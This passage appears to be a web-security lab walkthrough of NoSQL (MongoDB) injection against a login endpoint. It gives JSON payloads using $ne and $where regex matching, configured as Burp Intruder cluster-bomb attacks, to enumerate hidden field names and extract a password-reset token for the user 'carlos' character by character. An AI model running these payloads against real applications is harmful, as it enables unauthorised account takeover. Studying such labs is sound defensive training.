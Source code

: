 Send the above request with payload to Burp Intruder:

- Attack type: Cluster bomb
- Set 2 payload positions like below

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "Object.keys(this)[1].match('^.{<position 1>}<position 2>.*')"
}
```

- First payload position configuration (if the password is longer than 16 characters then this will need to be adjusted)
    - Payload type: Numbers
    - From: 0
    - To: 15
- Second payload position configuration
    - Payload type: Simple list
    - Include lowercase/uppercase letters and numbers in payload list

Start the attack and filter by the responses that contain the TRUE value message. The first Key identified was called "username". Perform the same steps for the second, third, Keys:

```json
"$where": "Object.keys(this)[<INCREMENT THIS VALUE>].match('^.{<position 1>}<position 2>.*')"
```

The fourth Key ended up containing the key for a password reset function:

```json
"$where": "Object.keys(this)[4].match('^.{<position 1>}<position 2>.*')"
```

Now, request the following endpoint and the app responds with "Invalid Token" message:

```bash
GET /forgot-password?forgotPwd=
```

Submitting any other random parameter name, will not have any affect on the application response, so we know that the parameter name "forgotPwd" is a valid one.

```bash
GET /forgot-password?randommmm=
```

Now we need to extract the value of the "forgotPwd" Key one character at a time, use the following payload:

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "this.forgotPwd.match('^.{0}a.*')"
}
```
